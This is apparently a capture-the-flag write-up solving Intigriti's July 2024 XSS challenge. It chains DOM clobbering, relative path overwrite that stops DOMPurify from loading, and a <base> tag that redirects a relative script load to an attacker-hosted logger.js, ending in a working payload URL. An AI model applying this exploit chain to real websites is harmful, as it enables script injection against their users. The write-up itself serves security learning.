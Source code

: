 # July XSS challenge - Intigriti 2024

![image](https://github.com/Dom0nS/ctf/assets/74207547/e1b6cff4-587d-4a58-909a-f210b269c289)

The challenge rules consist of the following:

![image](https://github.com/Dom0nS/ctf/assets/74207547/a22dea26-f0ff-44e9-81e5-ce4b5b77eebb)

## What was this challenge about?

The website was fairly simple. It featured a form through which HTML code could be injected, but JavaScript code execution was not allowed.

![image](https://github.com/Dom0nS/ctf/assets/74207547/004168b3-2d83-410a-97cf-b7f145154b88)

The execution of the script was stopped by the CSP, and there was also a message about an undefined variable that would be useful later.

![image](https://github.com/Dom0nS/ctf/assets/74207547/ebb73036-3f57-405d-8455-55cee57b8a64)

Content Security Policy looked rather strict, important part was that `default-src` was set to `*`.

![image](https://github.com/Dom0nS/ctf/assets/74207547/db5b3487-c05b-4142-95c7-26ed1ca0a4a3)

## Closer look at the source code

The interesting part of the source code was, of course, JavaScript. The main script included processing of the form, the content of which was placed in an `innerHTML` sink. Then it was followed by a check for certain conditions, and further code was marked as `"for next release"`.

```html
<script integrity="sha256-C1icWYRx+IVzgDTZEphr2d/cs/v0sM76a7AX4LdalSo=">
      document.getElementById("memoForm").addEventListener("submit", (event) => {
        event.preventDefault();
        const memoContent = document.getElementById("memoContentInput").value;
        window.location.href = `${window.location.href.split("?")[0]}?memo=${encodeURIComponent(
          memoContent
        )}`;
      });

      const urlParams = new URLSearchParams(window.location.search);
      const sharedMemo = urlParams.get("memo");

      if (sharedMemo) {
        const displayElement = document.getElementById("displayMemo");
        //Don't worry about XSS, the CSP will protect us for now
        displayElement.innerHTML = sharedMemo;

        if (origin === "http://localhost") isDevelopment = true;
        if (isDevelopment) {
          //Testing XSS sanitization for next release
          try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
        }
      }
    </script>
```

I immediately hooked my eye on the `try...catch` block, in which JavaScript code from the logger.js file was added. The ability to manipulate the source of such script, would allow obtaining XSS and bypassing the CSP's security features.

```js
       try {
         const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
         displayElement.innerHTML = sanitizedMemo;
       } catch (error) {
         const loggerScript = document.createElement("script");
         loggerScript.src = "./logger.js";
         loggerScript.onload = () => logError(error);
         document.head.appendChild(loggerScript);
       }
```

## Step 1 - DOM Clobbering

With the idea in my head, I started trying to reach the previously mentioned code. The first step was the `if` conditions. I noticed that the expressions were not nested (the code was missing the curly brackets), so both conditions were checked regardless of the result of the first one.

```js
if (origin === "http://localhost") isDevelopment = true;
        if (isDevelopment) {
          //Testing XSS sanitization for next release
          try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
        }
```
From the console error earlier, I remembered that the `isDevelopment` variable was not defined anywhere else in the code, allowing me to declare it using DOM Clobbering. (More about this attack - [link](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering))

I inserted a special `<a>` tag into the form, which, when placed in the DOM, functioned as a valid variable.

![image](https://github.com/Dom0nS/ctf/assets/74207547/d8f1fdc7-7f17-40bb-81e5-de496e017f27)

## Step 2 - Relative Path Overwrite

The first part was quite easy, now it's time for something more difficult. I had to jump to the catch section, in other words cause an error in one of the two lines of the try block.


```js
 try {
            const sanitizedMemo = DOMPurify.sanitize(sharedMemo);
            displayElement.innerHTML = sanitizedMemo;
          } catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
```

Initially I spent a lot of time trying to cause an error in the sanitize function of the DOMPurify library. Trying different formats, specially encoded characters, or feeding a large portion of data was not successful at all. 

After sitting on this for a while, it occurred to me that the application was using the DOMPurify library in the latest version at the time of this challenge. It was very unlikely that there would be an easy way to cause an error in a core function of such well-known library. I knew it had to be something else.

![image](https://github.com/Dom0nS/ctf/assets/74207547/74a94f25-7340-41d1-a08a-9850c93006d2)

After several hours of trying, I felt like giving up. Deprived of hope, I started looking for other things that might trigger an error in the try block. I came up with an idea, what if the DOMPurify library didn't load successfully. In that case, calling a sanitize function that didn't exist would cause an error.

I started playing around with the request path and after simply adding `/` to the end of the URL, I got the following error in the console.

![image](https://github.com/Dom0nS/ctf/assets/74207547/f688a437-2b7a-4ff2-9e41-51bb55b6960a)

That was it! It turned out that website was vulnerable to RPO (Relative Path Overwrite - [link](https://support.detectify.com/support/solutions/articles/48001048955-relative-path-overwrite))

The DOMPurify library was loaded using the relative path `<script src="./dompurify.js"></script>`, so after adding `/` at the end of the URL, the browser was unable to find it. Thankfully, server returned the challenge page regardless of the URL after the `/challenge/` fragment.

![image](https://github.com/Dom0nS/ctf/assets/74207547/265204c9-da18-4aaa-aacd-725f4f21abcd)

## Step 3 - Base tag is the way

The last thing left to do is to get the XSS from the attached script. 

```js
catch (error) {
            const loggerScript = document.createElement("script");
            loggerScript.src = "./logger.js";
            loggerScript.onload = () => logError(error);
            document.head.appendChild(loggerScript);
          }
```

After combining steps one and two, the browser returned an error for the undefined logError() function. This happened because the logger.js script was also loaded using a relative path.

![image](https://github.com/Dom0nS/ctf/assets/74207547/065232a4-b8e5-40ab-9cf2-a18d04afe3b2)

Initially I thought of DOM Clobbering, but unfortunately this attack vector does not allow declaring functions, only variables. Then an html tag came to mind - `<base>`.

`The <base> tag specifies the base URL and/or target for all relative URLs in a document.`

As I was able to add HTML tags to the DOM, I was also able to use the `<base>` tag to change the address from which scripts using the relative path were loaded. In this particular case, I was only able to change the URL for scripts loaded after the HTML code was added to the DOM.

After a quick test, my idea worked. Upon using the `<base>` tag, the browser attempted to load the script from the address I had specified.

![image](https://github.com/Dom0nS/ctf/assets/74207547/e6917233-1d56-45b4-8ec2-2516c9bcf293)


Now all that remains is to host the file on the server and check if the JavaScript code will actually be executed.
<br>
<br>

The logger.js file on my local server, port 3333. (In a real-world scenario, the file could be hosted on a publicly accessible domain)

```js
alert(document.domain);
```

Payload inserted in the form at `https://challenge-0724.intigriti.io/challenge/index.html/`

```html
<a id=isDevelopment></a><base href=http://localhost:3333>
```

XSS!

![image](https://github.com/Dom0nS/ctf/assets/74207547/cded1d67-a06e-4121-b125-55216ad295e6)

## Final payload

```
https://challenge-0724.intigriti.io/challenge/index.html/?memo=%3Ca%20id%3DisDevelopment%3E%3C%2Fa%3E%3Cbase%20href%3Dhttp%3A%2F%2Flocalhost%3A3333%3E
```
